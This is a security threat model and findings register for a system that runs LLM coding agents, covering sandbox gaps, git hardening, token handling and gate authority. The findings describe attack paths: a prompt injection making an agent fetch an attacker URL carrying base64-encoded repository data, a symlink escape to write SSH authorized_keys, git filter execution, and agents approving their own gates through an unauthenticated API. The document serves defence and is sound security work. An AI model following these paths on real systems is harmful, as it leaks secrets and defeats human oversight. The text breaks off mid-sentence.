

# Security model and findings

**Status:** living document. **Owner:** project owner. **Last reviewed:** 2026-11-22.

This is the factory's threat model, the list of what its isolation actually enforces today, and the register of open
security findings (`SEC-n`). It exists because the isolation story is spread across ADR-0016, ADR-0019, ADR-0020,
ADR-0029, ADR-0033, ADR-0060, ADR-0078 and ADR-0079, and the sum of those ADRs reads stronger than the code behaves.

**How to use it.** Read §4 before believing any sentence that contains "sandbox" or "isolated". Read §6 before touching
`sandbox/`, `workspaces/`, `opencode/`, the publish path, or anything that decides what to run. When you add a runtime,
a tool, a connector or an execution path, add or update a row in §4 and a finding if the answer is "policy only" or "not
enforced".

**Scope.** Security of the factory itself, of the repositories it writes to, and of the surfaces that carry its
authority: its HTTP API (including the decision routes), the browser session that operates it, and the runtimes that
execute agent code. **Not** in scope: the model provider's own posture (an accepted risk, §5) and the cluster's own
hardening beyond what the factory's manifests request.

---

## 1. Why this document

The factory runs at three privilege levels at once, and its own documentation mixes them up:

1. **As the operator** — the factory process runs as an OS user on the host, and on `bwrap` it shares that user's
   `HOME`, filesystem and network with everything it spawns (the unsandboxed `host` runtime was removed, ADR-0080 §10).
2. **As an agent** — untrusted text from tickets, repositories, knowledge entries and fetched pages reaches an LLM that
   drives tools: shell, file writes, git, web fetches, MCP calls.
3. **As the publisher** — it holds tokens that can write to the customer's repositories.

The gap between (1) and (2) is the whole problem: today the agent's tools mostly execute *at level 1*, so a prompt
injection or a malicious `npm install` script is not contained by anything the sandbox does. ADR-0079 closed the most
obvious hole (commands no longer see `$HOME`), and that closure is real — but it is a property of `SandboxExec`, not of
the agent.

---

## 2. Assets

Ordered by the damage of losing them. Findings in §6 reference these IDs.

| ID | Asset | Where it lives today | Worst case |
|---|---|---|---|
| **A1** | Write access to customer repositories | tokens resolved from the secret store into `GIT_CONFIG_PARAMETERS` (SEC-3) | the factory silently publishes attacker-controlled code; the customer's supply chain is compromised downstream |
| **A2** | Model provider keys | secret store, resolved into the factory process | billed abuse; provider-side data access |
| **A3** | Connector tokens (Jira/GitHub) and MCP credentials | secret store; MCP secrets passed to spawned servers | read/write of customer tickets and projects |
| **A4** | Customer source code and ticket content | workspaces under `.workspaces/`, plus prompts sent to the provider | disclosure of the customer's unreleased code |
| **A5** | The runtime store (WorkItems, artifacts, transcripts, check logs) | SQLite on the factory host | the full history of every item, including anything an agent ever read |
| **A6** | The factory's own code and definitions | the Git checkout the workspaces fork from | definition tampering → durable control over future items |
| **A7** | The operator's machine or cluster (credentials, other work) | the factory user's `HOME`, SSH agent, cloud credentials, cluster role | lateral movement beyond the factory |
| **A8** | The factory's authority over gates | its HTTP API: approve/reject, recovery allowances, knowledge and issue review, ticket publish | an agent approving its own output: rule 8 defeated, and the last control before publication gone (SEC-15) |

---

## 3. Adversaries and trust boundaries

**Adversary 1 — prompt injection.** The realistic attacker. It writes text the factory ingests: a ticket body or
comment, an `AGENTS.md`, a code comment, a knowledge entry, an MCP response, a fetched web page. It does not need to
escape anything if it can talk the agent into using a tool the agent already has.

**Adversary 2 — a malicious repository.** The factory is designed to check out and build code it has never seen.
`npm install`, `make`, `go test`, a PostCSS config, a `conftest.py` and a `.gitattributes` filter are all attacker
territory once the item's repository is (A4-derived input).

**Adversary 3 — the operator's environment.** Not malicious, but shared: another agent, another item, a stolen laptop,
a CI runner.

**Reachability is part of the threat model.** The factory's own HTTP surface can be reached from three directions: from
inside a sandbox (a command's network namespace is the host's, SEC-6), from any host on the network because the app binds
every interface, and from the operator's browser through content an agent authored (SEC-16). An adversary that reaches it
acts **with the factory's own authority**, because there is no authentication yet (SEC-15) — which makes the decision
routes the shortest path to defeating a human gate.

**Not modelled:** a kernel or hypervisor exploit, a compromised model provider, and physical access. Those are the
reasons to prefer `microvm` over `container` (ADR-0019 §2), not the primary danger.

### Trust boundaries

The dashed edges are the findings. Everything on the right of the factory boundary that is dashed is code or data
reaching a place it should not.

---

## 4. What is enforced today

Legend: **✓** enforced by the OS, the kernel or the network; **~** enforced by policy inside the factory process (a bug or
an injection can bypass it); **✗** not enforced.

| Capability | `none` | ~~`host` (ADR-0020)~~ removed — ADR-0080 §10 | `bwrap` (ADR-0079) | `kubernetes` (planned) |
|---|---|---|---|---|
| Commands: `run`, checks, `CommandRunner` | not run | ✗ runs as your user | ✓ namespaces (pid/ipc/uts/cgroup), `--new-session`, `--cap-drop ALL`, read-only system binds, ephemeral `HOME`, narrowed `.git`/ref binds (ADR-0081); no seccomp filter yet | ✓ pod (network policy not designed yet) |
| File tools: `read_file`, `write_file`, `list_files` | n/a | ~ realpath containment guard (P0-1/SEC-1); still factory-process code | ~ the same host-side code, now realpath-guarded | to design: must run inside the sandbox |
| OpenCode built-ins: `read`, `glob`, `grep`, `edit`, `write`, `patch` | n/a | ~ OpenCode policy only (`external_directory: deny`, `PROTECTED`), with the `.git` rule unverified for symlinks (**SEC-10**) | ~ the same; `shell` is wrapped by the confiner and refused when unattributable (P0-4) (**SEC-10**) | ✗ unusable with a workspace that lives in the pod |
| `git` plumbing: snapshot, worktree, base merge (publish commit: in the sandbox, ADR-0092) | n/a | ~ host git inside an agent-writable repository; hooks/pager/editor/fsmonitor disabled and the token scoped to fetch/push (P0-2); repo-local filters remain (**SEC-2/3**) | ~ the same | ~ the same |
| Workspace setup commands (`spec.setup`) | n/a | ✗ host shell, no sandbox (**SEC-4**) | ✗ the same | ✗ the same |
| Web tools: `webfetch`, `websearch` | n/a | ~ an audited egress proxy + `fetch_url` tool exist (P0-9); OpenCode's own `webfetch`/`websearch` are still offered in-process (**SEC-5**, retire in P0-3) | ~ the same | ~ the same |
| Outbound network from commands | n/a | ✗ unrestricted | ✗ `--share-net`; a declared `network.mode: none` is ignored (**SEC-6**) | possible with a network policy |
| CPU, memory, pids | n/a | ✗ no limits (**SEC-9**) | ✗ no limits (**SEC-9**) | pod limits (planned) |
| Secrets in the command environment | n/a | ✗ process env (and `/proc/<pid>/environ`) | ✓ scrubbed allowlist | ✓ scrubbed allowlist |
| MCP over http / stdio | n/a | ~ the factory's network position; `stdio` needs `spec.hostExecution` and is recorded in provenance (P0-7, §12) | ~ http still leaves from the factory; `stdio` needs `spec.hostExecution` | ~ same |
| Model proxy (`/api/model-proxy`, ADR-0080 §4) | n/a | ~ run-scoped token auth, provider key held factory-side, budgets/TTL enforced; on the **main** listener, not yet its own (S0-2) | ~ the same | ~ the same |
| Factory HTTP API (decide, review, publish) | n/a | ✗ unauthenticated, reachable from the sandbox and from the network (**SEC-15**) | ✗ the same (**SEC-15**) | ✗ must not be reachable from the runtime surface at all (ADR-0080 S2) |
| Code Mode (`execute`) | n/a | ~ an interpreter with no network, filesystem or process access, running in the factory process with host-set tool limits (**SEC-17**) | ~ the same | ✗ the same |
| Isolation waiver visibility | n/a | ~ a profile field (`spec.acceptWeakerIsolation`) recorded in run/check status and shown at the gates (**P0-7**) | ~ the same | ~ the same |

**The `host` runtime is removed.** ADR-0080 §10 (milestone X61, done) removed the runtime so that nothing executes
without a namespace: `FACTORY_SANDBOX_RUNTIME=host` fails loudly at startup and the adapter survives only as a test
helper under `web/src/core/testing/` (unreachable from the composition root). The `host` column above is historical.
§11/§12 moved the isolation waiver and host process execution into reviewed definitions. Note that this
does **not** change the `bwrap` column: SEC-1, SEC-2, SEC-3 and SEC-5 are host-side helpers that `bwrap` uses as well, so
they stay open until the P0 items land.

**What actually works and should not be regressed:** `SandboxExec` genuinely confines commands (`bwrap`), the command
environment is genuinely scrubbed, the sandbox file tools resolve with `realpath` and reject escapes (`..`, absolute,
symlink, `.git`; P0-1/SEC-1), the
transcripts redact *registered* secret values, the secret store never puts values into definitions (rule 16), gates
cannot be skipped without a recorded reason, and no adapter executes without a namespace (ADR-0080 §10) —
except where `bwrap` is selected and the host-side helpers in the `bwrap` column run anyway.

---

## 5. Accepted risks

Deliberate, documented, and revisitable. Everything here is a **decision**, not an oversight — but note that some of
them were decided before the threat model above existed, and should be re-read in its light.

| ID | Risk | Rationale in the ADRs | Revisit when |
|---|---|---|---|
| AC-1 | Ticket text, source code and transcripts are sent to the model provider | ADR-0014/0032: the product cannot work otherwise | a customer requires a self-hosted or zero-retention provider |
| AC-2 | Outbound network stays open for commands (`--share-net`) | ADR-0079 §Consequences: toolchains and research need it | the Kubernetes runtime lands, then it becomes a per-profile policy |
| AC-3 | ~~The `host` runtime exists and waives isolation~~ **removed** | ADR-0020: developer laptop convenience, explicit opt-in | closed — ADR-0080 §10 removed the runtime (X61): `FACTORY_SANDBOX_RUNTIME=host` fails loudly, nothing executes without a namespace |
| AC-4 | `spec.setup` commands are authored in definitions and run without a sandbox | ADR-0021 predates the sandbox increment | always — see SEC-4, which argues this is a gap rather than a choice |
| AC-5 | **Not valid today — treat as open.** Tool results reach the model unredacted | ADR-0019 §7 justifies it with "safe only because sandboxes never receive factory secrets" | the premise is already broken: SEC-1 (file tools), SEC-3 and SEC-6 (network) let a sandbox reach factory data, so the recorded leak is real until those are fixed |
| AC-6 | Definitions are trusted input | they are reviewed and versioned in Git | **conditional, and narrower than it reads:** agent-proposed content that later becomes trusted input — knowledge entries (ADR-0030), retrospective feedback and proposals (ADR-0041), issue proposals and follow-up tickets (ADR-0066) — is safe only while a human actually approves it; if approval becomes routine, reassess |
| AC-7 | Residual data channels once egress is closed | ADR-0080 §7: with the network denied, data can still leave through tool arguments, issue proposals, artifacts, the exported commit and published content; each is limited by the per-run token (TTL, revocation), size and rate limits, and human review of what is published | size or rate limits are dropped, the token's scope widens, or a new channel is added to the runtime protocol |
| AC-8 | A pull request author can exclude a file from AI review by giving it a `Code generated … DO NOT EDIT` header | ADR-0095 §7 stage 2: generated code is judged by candidate preparation (regeneration must reproduce it, ADR-0043), not by review. A header *added* to a modified file keeps it in scope, and every file excluded as generated is listed at the gate | a reviewed repository has no generation check in preparation, or the human gate stops reading the excluded list; then require `generatedPaths` and ignore headers on new files |

---

## 6. Findings register

Severity: **Critical** = a human gate or the factory's authority defeated, or code executed as the factory user, without
a precondition; **High** = the same, given an injected agent or a malicious repository (both are in scope by design);
**Medium** = bounded damage, DoS, or a declared control that is not enforced; **Low** = hardening, test gaps,
documentation that overstates.

`Status`: **open**, **mitigated** (a compensating control exists), **fixed** (with the ADR or commit that closed it).

### Summary

| ID | Severity | Status | What |
|---|---|---|---|
| SEC-1 | High | fixed (P0-1) | Sandbox file tools escape the workspace through symlinks |
| SEC-2 | High | mitigated (P0-2, ADR-0092 publish) | Host `git` runs inside agent-writable repositories with repo-local config and hooks enabled |
| SEC-3 | High | mostly fixed (S1; base-sync fetch open, ADR-0092 stage 2) | The repository token is inherited by everything git spawns |
| SEC-4 | Medium | open | Workspace setup runs on the host, outside any sandbox |
| SEC-5 | High | mitigated (P0-9) | `webfetch`/`websearch` are always offered and run in the factory process |
| SEC-6 | Medium | open | Declared network policy is not enforced, and commands keep full host network reach |
| SEC-7 | Medium | fixed (P0-7) | The isolation waiver is implicit and absent from check evidence |
| SEC-8 | High | open | One OS user, one process: no boundary between the decider and the secret holder |
| SEC-9 | Medium | open | No resource limits outside containers |
| SEC-10 | Medium | mitigated (P0-4: fail-closed shell) | OpenCode's own tools are policy-only, and the shell confiner fails open |
| SEC-11 | Medium | open | Redaction is value-based; anything else read lands in the transcript and at the provider |
| SEC-12 | Medium | mitigated (P0-7/§12) | MCP traffic runs in the factory's network and process position |
| SEC-13 | Low | fixed (ADR-0081) | The documented posture is stronger than the enforced one |
| SEC-14 | Low | fixed (P0-1/P0-5) | The sandbox contract test does not cover escapes |
| SEC-15 | **Critical** | open | The factory's API is unauthenticated and reachable from the sandbox: gates, allowances, reviews and publishes can be approved by an agent |
| SEC-16 | High | mitigated (S0-4: CSP + origin check) | Rendered agent content can reach the same routes (no CSP, no origin check) |
| SEC-17 | Medium | open | Code Mode (`execute`) runs agent-written programs in the factory process and is absent from §4 |
| SEC-18 | High | open | The published branch is an attack path into the customer's CI |
| SEC-19 | Medium | fixed (ADR-0081) | `bwrap` binds the shared object store and refs of the source checkout |
| SEC-20 | Medium | fixed (ADR-0081) | The bwrap invocation lacks the cheap hardening flags |
| SEC-21 | Medium | open | Check evidence means "the candidate's own command exited 0" |

**Fix first:** SEC-15 — a sandboxed command can approve its own gates today, with no escape and no injection required.
Then SEC-16, then the S0/P0 items in §7, then SEC-18.

---

### SEC-1 — Sandbox file tools escape the workspace through symlinks (High)

**Evidence.** `HostSandbox.path` and `BwrapSandbox.path` reject `..` and absolute paths with a purely lexical check
(`adapters/sandbox/host.ts:82-87`, `adapters/sandbox/bwrap.ts:274-279`), and `readFile`/`writeFile` then call `node:fs`
on the result (`host.ts:96-105`, `bwrap.ts:290-300`), which follows symlinks. Agents reach these helpers through the
tool loop's capability binding (`agents/tool-loop.ts:136`).

**Impact.** Inside `bwrap`, the *commands* are confined but `read_file`/`write_file` are not: an agent that declares
`write_file` (the developer and verifier do) can create `ln -s $HOME/.ssh evil` with `run` and then `write_file
evil/authorized_keys`, or read `~/.ssh/id_rsa` / the SQLite store / another item's workspace with `read_file`. A symlink
committed in the repository (`evil -> /`) works without any agent cooperation.

**Why it is High.** It converts "the agent is confined to its workspace" into "the agent has the factory user's
filesystem", which is A5 and A7, and it is the enabler for SEC-2.

**Fix.** Resolve with `realpath` and re-check containment on both sides, as `LocalWorkspaceReaders` already does for
`read` (`adapters/workspaces/local-reader.ts:47-57`) and as `WorkspaceSnapshotter.rejectEscapes` does for snapshots —
the guard exists twice in the codebase and is missing exactly where writes happen. Add the escape cases to the contract
suite (SEC-14).

**Status: fixed (P0-1).** Both adapters route `readFile`/`writeFile` (and the `exec` cwd) through one shared helper,
`adapters/sandbox/workspace-paths.ts`, which resolves with `realpath` and re-checks containment (including `.git`) before
any `node:fs` call. A test asserts `host` and `bwrap` refuse a symlink-to-outside read, a symlink-directory write, an
absolute path and `.git`; the shared contract suite gained the lexical escape cases (SEC-14).

### SEC-2 — Host `git` runs inside agent-writable repositories with repo-local config and hooks enabled (High)

**Evidence.** Three call sites run git with the workspace as `cwd` and with the repository's own configuration and hooks
live:

- publish: `git add -A` / `commit` / `push` (`adapters/workspaces/git-publish.ts:25-33`) — no `core.hooksPath`, no
  `GIT_CONFIG_*`;
- workspace preparation and removal: `adapters/workspaces/git-worktree.ts:12,57,84`;
- diff and file listing inside `bwrap`: `adapters/sandbox/bwrap.ts:22-27` and `adapters/sandbox/host.ts:11` with
  `git add -N .` / `git diff` (`bwrap.ts:309-312`).

The hardened sites (`snapshot.ts:22`, `git-base-sync.ts:13`) pass `-c core.hooksPath=/dev/null`, but repo-local config is
still read: `filter.<name>.clean` runs on `git add`, `diff.<name>.textconv` on `diff`, `core.pager`/`core.editor`,
`credential.helper` and `alias.<name> = !cmd` all execute commands. `GIT_CONFIG_GLOBAL=/dev/null` does not disable them.

**Impact.** An agent writes `.git/config` (or `.gitattributes`) inside its workspace — trivially on `host`, and on
`bwrap` through SEC-1, since the read-only `.git` bind only binds *commands*, not the host-side helpers — and the factory
executes the payload as the operator during the next publish, snapshot or diff. That is code execution as the factory
user, with A1–A5 in reach, triggered by ordinary workflow progress.

**Fix.** Treat any git command whose `cwd` is agent-writable as untrusted execution. Minimum: `-c core.hooksPath=/dev/null
-c core.fsmonitor=false -c core.pager=cat -c core.editor=false`, `GIT_CONFIG_GLOBAL=/dev/null`, `GIT_CONFIG_NOSYSTEM=1`,
`GIT_ATTR_NOSYSTEM=1`, and `--no-verify` on commit/push — with the honest note that filter drivers can still be
configured repo-locally. Correct: build the published commit in a factory-owned clone from a tree object (`git
hash-object`/`mktree`/`commit-tree` with an index outside the workspace) and push from there, or run publish as a
sandboxed step like checks. Decide with a successor ADR to ADR-0023/ADR-0019.

**Status: mitigated (P0-2).** Every git invocation the factory runs on a workspace now carries `GIT_HARDENING`
(`core.hooksPath=/dev/null`, `core.fsmonitor=false`, `core.pager=cat`, `core.editor=false`) and `GIT_HARDENING_ENV`
(`GIT_CONFIG_GLOBAL=/dev/null`, `GIT_CONFIG_NOSYSTEM=1`, `GIT_ATTR_NOSYSTEM=1`), and commit/push use `--no-verify`
(`git-publish.ts`, `git-base-sync.ts`, `git-worktree.ts`, `snapshot.ts`). Repository-local `filter.*`/`diff.*` drivers can
still be configured, so the finding stays **mitigated, not fixed** until the commit is built in a factory-owned clone
(S1 landed the *push* from a factory-owned mirror; the commit still runs in the workspace).

**Update (ADR-0092).** Publication no longer runs git in the workspace: the commit is made by a job **in the sandbox**
(`bwrap`: throwaway overlay of the workspace, private git directory, no token, no network), and the factory only
ingests the bundle and pushes. Opted-in repository hooks run in a **separate** run that can only pass or fail
publication; they never produce what is pushed, and their verdict is a standards check, not a security control. `module-scope.ts` and `local-reader.ts` now use the hardening too. Still host-side on a workspace: the base
sync (ADR-0053, including a **token-bearing fetch with the workspace as `cwd`** — see SEC-3), worktree preparation,
snapshot/checkpoint plumbing and the `bwrap` sandbox's own `listFiles`/`diff`. The finding stays **mitigated** until
those move (ADR-0092 stage 2).

### SEC-3 — The repository token is inherited by everything git spawns (High)

**Evidence.** `git-auth.ts:26-28` passes the token as
`GIT_CONFIG_PARAMETERS='http.…extraheader=AUTHORIZATION: basic base64(x-access-token:<token>)'`. The comment above it
states "Nothing else is passed, so factory secrets never reach git or its hooks" — but the value sits in the *environment*
of the git process, which every hook, filter, textconv helper and credential helper inherits as a child process, and
base64 is not protection.

**Impact.** Combined with SEC-2, a workspace-owned payload reads `$GIT_CONFIG_PARAMETERS`, decodes the token and
exfiltrates write access to the customer's repository (A1) — the highest-impact asset, reachable without touching the
secret store.

**Fix.** Never place credentials in the environment of a process tree that can be extended by workspace content: pass
them to a factory-owned credential helper through a pipe or a private file with restricted mode, and only to a git
invocation that runs with the repository's untrusted configuration disabled (SEC-2). Longer term, publish from a
factory-owned clone so no agent-writable config is ever loaded (ADR-0023 successor).

**Status: fixed (S1, ADR-0080 §13).** The push now runs in a factory-owned **bare mirror** ingested from an exported bundle
(`GitBundleIngest`, validated with `fsck`/limits and never checked out), which carries no agent-writable config, hooks or
filters. The token reaches only that push process (`gitRemote` returns a token-free `env` and a separate `authEnv`), and
`git add`/`commit`/`diff` in the workspace never inherit it.

**Correction (ADR-0092).** Not fully fixed: `GitBaseSync.detect` fetches the base **with `authEnv` and the workspace as
`cwd`** (`git-base-sync.ts`), so repository-local `url.*.insteadOf`/`http.*` settings in the shared clone's config can
redirect or expose the token. Moving that fetch to a factory-owned mirror is ADR-0092 stage 2.

### SEC-4 — Workspace setup runs on the host, outside any sandbox (Medium)

**Evidence.** `GitWorktreeWorkspaces.prepare` runs `ws.spec.setup` with `runScrubbed(cmd, path, 15 min)`
(`git-worktree.ts:60-66`) — a host `bash -lc` with a scrubbed environment but no namespace, no resource limits and no
runtime selection. ADR-0019 §5 states "there is no adapter that runs commands on the factory host"; this path still does,
even when `bwrap` or a cluster runtime is selected. `git worktree add` runs in the same position and can trigger the
source repository's `post-checkout` hook (`git-worktree.ts:53-57`).

**Impact.** Repository-defined commands execute as the operator with full filesystem and (via `--share-net`-equivalent)
network access, before any agent runs. Definitions are trusted input (AC-6), so the severity is bounded — but a
compromised or template-generated definition, or a repository checkout with hooks, is code execution on the host.

**Fix.** Run setup through the selected `ExecutionEnvironment` (the same path as checks), or state plainly in
ADR-0021 and in the UI that setup is host code — and stop claiming cluster-level isolation for the workspace as a whole.

### SEC-5 — `webfetch`/`websearch` are always offered and run in the factory process (High)

**Evidence.** `mapping.ts:53-57` adds both to `ALWAYS`, so every session gets them regardless of the agent definition;
they execute inside the OpenCode host, in the factory process, not in the sandbox (`adapters/opencode/host.ts` tools).

**Impact.** The cheapest exfiltration channel in the system: a prompt injection asks the agent to fetch
`https://attacker/?d=<base64 of the repository, a secret it read through SEC-1, or a ticket it can see>`. It is not
covered by `bwrap`, by `--share-net` decisions, or by any egress policy, because it never enters the sandbox.

**Fix.** Take both tools out of `ALWAYS`; make them an explicit agent capability, and route them (and every other
outbound HTTP need of an agent) through a factory-side egress proxy with an allowlist and an audit record — the same
component that will eventually enforce `SandboxProfile.network`.

**Status: mitigated (P0-9).** A factory-side egress proxy now exists (`DefaultEgressProxy`, ADR-0080 §7): a host
allowlist (`FACTORY_EGRESS_ALLOW`, deny by default), https-only, no redirect following, response caps, and every request
(and refusal) recorded in the run's transcript. Agents reach it through the explicit `fetch_url` tool. The remaining step
is **P0-3**: retire OpenCode's in-process `webfetch`/`websearch` from `ALWAYS` so the audited proxy is the only path.

### SEC-6 — Declared network policy is not enforced (Medium)

**Evidence.** `bwrap` passes `--share-net` (`bwrap.ts:107`), and `SandboxProfile.spec.network` (`kinds.ts:249`) is read by
no adapter. ADR-0079 §Consequences documents the open network as a decision, but not that `mode: none` is silently
ignored.

**Impact.** (a) Data egress: `curl` of the workspace, in the direction of the attacker's choice. (b) The sandbox reaches
host loopback, so any factory-local service — the API, the MCP server, a dev database — is in reach from inside
"isolation". (c) A definition that declares `network.mode: none` gets `share-net`, which is worse than an unenforced
control: it is a false statement.

**Fix.** Enforce it where the OS can: `--unshare-net` for `none` (with the toolchain caveat), a network policy or egress
proxy for `allowlist` on Kubernetes, and a validation error when a profile declares a mode the selected runtime cannot
provide. Until then, document the gap where profiles are documented.

### SEC-7 — The isolation waiver is implicit and absent from evidence (Medium)

**Evidence.** `FACTORY_SANDBOX_RUNTIME=bwrap` sets `waivesIsolation: true` for the agent paths and for checks
(`factory.ts:285`, `bwrap.ts:196-200`, `executor.ts:126-131`, `tool-loop.ts:120-121`). The only durable traces are a
transcript note and `health.waivesIsolation`; `CheckRun.spec.environment` records runtime and version but not the
isolation that was actually used, and no UI surface shows it.

**Impact.** Verification evidence approved by a human may have been produced at `process` isolation while the profile
declared `container`, invisibly. With a waiver, a *security* property of the evidence differs from what the definition
promises, and reviewers cannot see it.

**Fix (decided in ADR-0080 §11, milestone X61).** The waiver becomes a reviewed property of the definition —
`SandboxProfile.spec.acceptWeakerIsolation`, default `false` — and stops being a consequence of runtime selection: the
environment chooses *which* runtime to use, never how much isolation may be skipped, and `auto` never waives. Effective and
declared isolation are recorded in `AgentRun`/`CheckRun` status and rendered in gate evidence and the health badge
("process; profile asks container, allowed by the profile"). The profiles used locally (`node-build`, `go-build`, both
declared `container` while `bwrap` provides `process`) gain the field in the same change.

**Status: fixed (P0-7, X61 §11).** `SandboxProfile.spec.acceptWeakerIsolation` is the only waiver mechanism; the
`FACTORY_SANDBOX_RUNTIME`-driven `waivesIsolation` flag is gone from `SandboxHealthInfo` and the adapters. A runtime below
the profile minimum is refused unless the profile accepts it (`decideIsolation`), and the effective-versus-declared pair is
recorded in `AgentRun.status.provenance.isolation` and `CheckRun.spec.environment`, and rendered in the run inspector and
check evidence ("isolation process (profile asks container)"). The local profiles carry the field.

### SEC-8 — One OS user, one process: no boundary between the decider and the secret holder (High, structural)

**Evidence.** Everything in §4's middle column is the factory process: the LLM loop, `SandboxFiles`, the git plumbing,
the MCP clients, the store, and the resolved secrets. The only isolation primitive in use separates *commands* from the
rest.

**Impact.** This is the root cause of SEC-1 to SEC-5: any of them ends at the same place — the operator's privileges and
A1–A8 — because there is nothing between "an agent made a tool call" and "the factory user's filesystem". It also means
a single finding is never contained to one item or one agent.

**Fix.** Split the execution plane from the control plane: run the agent's loop, its file operations, its git work and
its MCP clients inside the sandbox (a container or VM that holds no secrets and no store), and let the factory own only
the model proxy, the tool surface and the workflow. This is the direction the microVM/Kubernetes increment should take —
see §7.

### SEC-9 — No resource limits outside containers (Medium)

**Evidence.** `SandboxProfile.spec.resources` (`kinds.ts:247`) is unused by `host` and `bwrap`. `runScrubbed` and
`runBwrap` impose a timeout and an output cap only (`process.ts:16-48`, `bwrap.ts:114-163`). A `--unshare-pid` sandbox
still inherits the host's pid and memory budget.

**Impact.** A fork bomb, a memory-hungry build or a disk-filling test run takes down the factory process and the host it
shares with everything else. Agents write build configs; that is normal, not adversarial.

**Fix.** Apply `resources` through cgroups v2 (`systemd-run --scope -p MemoryMax=… -p TasksMax=…`) or document that only
container/keyube runtimes honour it, and fail closed when a profile declares a limit the runtime cannot apply.

### SEC-10 — OpenCode's own tools are policy-only, and the shell confiner fails open (Medium)

**Evidence.** ADR-0079 §Consequences states that `read`, `glob`, `grep`, `edit`, `write` and `patch` are not wrapped;
their guard is OpenCode's `external_directory: deny` plus `PROTECTED` for `.git` (`mapping.ts:64-66`). `onShell` applies
`confineShell` only when `stateForDirectory(ev.cwd)` resolves a run (`host.ts:509-518`, `:399-401`) — otherwise the
command is written through unconfined rather than refused.

**Impact.** The most-used tools run at the factory's privilege with a policy rather than a boundary; the `.git` denial
in particular is unverified against a symlink (SEC-1's shape). A shell call from an unexpected `cwd` silently loses its
confinement, which is the one place `bwrap` was doing real work.

**Fix.** Fail closed in `onShell` (refuse when the run cannot be resolved). Verify OpenCode's path handling with an
explicit test (a committed symlink pointing at `$HOME`) and, if it is lexical, stop relying on it — run the OpenCode host
inside the sandbox so its tools inherit the namespace (SEC-8, §7).

**Status: partially fixed (P0-4).** `onShell` now throws when `stateForDirectory` cannot resolve the run, so an
unattributable shell is refused instead of running unconfined. The remaining half — OpenCode's `read`/`edit`/`write`
being policy-only, and the symlink question — stays open until the host runs inside the sandbox (SEC-8, ADR-0080).

### SEC-11 — Redaction is value-based (Medium)

**Evidence.** `SecretRedactor` replaces values registered through `RedactingSecretResolver`/`redactor.add` in transcript
content and metadata (`transcripts/recorder.ts:11-40,51-57`); check logs do the same (`checks/controller.ts:281-284`).

**Impact.** Values the factory never resolved are not redacted. Anything an agent reads through SEC-1 (an SSH key, a
`.env`, another item's source) is recorded verbatim, kept in the store (A5), and sent to the model provider (AC-1) — a
leak that survives the run. ADR-0019 §7's premise ("tool results are safe because sandboxes never receive factory
secrets") stops holding the moment SEC-1 or SEC-6 is exploited.

**Fix.** Do not rely on redaction as the control: fix SEC-1/SEC-5/SEC-6 first, record provenance for what a tool read,
and treat the store as sensitive at rest (encryption, retention). A content-aware redactor is a defence in depth, not
the answer.

### SEC-12 — MCP traffic runs in the factory's position (Medium)

**Evidence.** MCP sessions are opened by the factory (`agents/run-harness.ts:171-172`), so http calls leave from the
factory's network position, not the sandbox's; `stdio` servers are spawned as host processes when the selected runtime is
`host` (`adapters/mcp/client.ts:57-58`), with a scrubbed environment plus the server's own secret.

**Impact.** A ToolServer gives an injected agent the factory's reach: cluster-internal endpoints, anything the operator's
network allows, and the server's own credentials. The egress restrictions that apply to commands do not apply here. The
destination itself is operator-chosen (AC-6), so this is about the *position*, not the target.

**Fix (decided in ADR-0080 §12, milestone X61).** Host process execution becomes a property of the definition —
`ToolServer.spec.hostExecution`, default `false` — instead of a consequence of the selected sandbox runtime, and the flag
is recorded in the run's provenance so a reviewer can see that the run spawned a process on the factory host. A tool
server that needs no host process should move to `http` (the factory's own MCP surface, X16). The old coupling —
`stdio` was allowed only when the selected runtime was `host` — is gone: `host` no longer exists (ADR-0080 §10) and the
transport is decided by `spec.hostExecution` (§12).

**Status: partially fixed (P0-7, X61 §12).** `ToolServer.spec.hostExecution` (default false) is now the only way a `stdio`
server may spawn a local process — no longer implied by the runtime — and the servers that did so are recorded in
`AgentRun.status.provenance.hostExecution` and shown in the run inspector. `http` traffic still leaves from the factory's
network position (P0-9).

### SEC-13 — The documented posture is stronger than the enforced one (Low)

**Evidence.** `SandboxHealthInfo.message` reports "Filesystem-isolated via bubblewrap (workspace-only rw, factory-owned
HOME + toolchain cache, network allowed; ADR-0079/0088)" while §4 shows the file tools, OpenCode's tools, the git
plumbing and setup are not in that scope. ADR-0079's title and consequences section describe an isolation of "agents and checks" that §4 qualifies.

**Impact.** It is the reason this document exists: a careful reader of the ADRs reached the wrong conclusion twice in one
conversation. Misstated controls distort design and review decisions, which is how the rest of this register went
unnoticed.

**Fix.** Amend ADR-0079's consequences in a successor ADR, correct the health message to name the confined scope
(`commands`), and keep §4 as the single place that answers "what is enforced".

**Status: fixed (ADR-0081).** ADR-0081 is the successor that narrows ADR-0079's claim to *command execution*, and the
